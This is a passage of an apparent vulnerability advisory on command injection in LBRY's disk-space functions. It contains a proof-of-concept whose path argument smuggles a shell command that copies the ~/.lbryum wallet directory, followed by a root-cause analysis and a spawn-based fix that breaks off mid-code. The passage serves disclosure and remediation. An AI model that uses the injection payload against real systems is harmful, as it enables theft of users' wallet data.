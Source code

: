 ### PoC 3: Wallet Data Theft
```javascript
// Steal LBRY wallet data
const stealWalletPath = "/tmp; cp -r ~/.lbryum /tmp/stolen_wallet; echo 'wallet_stolen'";

diskSpaceLinux(stealWalletPath)
  .then(() => console.log('Wallet data stolen'))
  .catch(error => console.log('Error:', error));
```

## Root Cause Analysis

### 1. **Direct Command Concatenation**
The code directly concatenates user input into shell commands without validation:
```javascript
exec(`df ${path}`, ...)  // VULNERABLE: No input validation
```

### 2. **Insufficient Escaping**
The `diskSpaceMac()` function only escapes spaces, ignoring other dangerous characters:
```javascript
const escapedPath = path.replace(/(\s+)/g, '\\$1');  // Only escapes spaces
```

### 3. **Lack of Input Validation**
No validation of path parameters for dangerous shell metacharacters:
- `;` (command separator)
- `&` (background execution)
- `|` (pipe)
- `>` (output redirection)
- `<` (input redirection)
- `$()` (command substitution)
- `` ` `` (backticks for command substitution)

## Recommended Fixes

### Option 1: Use Child Process with Arguments Array
```javascript
const { spawn } = require('child_process');

export const diskSpaceLinux = (path) => {
  return new Promise((resolve, reject) => {
    // Use spawn with arguments array to prevent command injection
    const dfProcess = spawn('df', [path]);
    
    let stdout = '';
    let stderr = '';
    
    dfProcess.stdout.on('data', (data) => {
      stdout += data.toString();
    });
    
    dfProcess.stderr.on('data', (data) => {
      stderr += data.toString();
    });
    
    dfProcess.on('close', (code) => {
      if (code !== 0) {
        return reject(new Error(stderr));
      }
      
      const dfResult = stdout.split('\n')[1].split(/\s+/);
```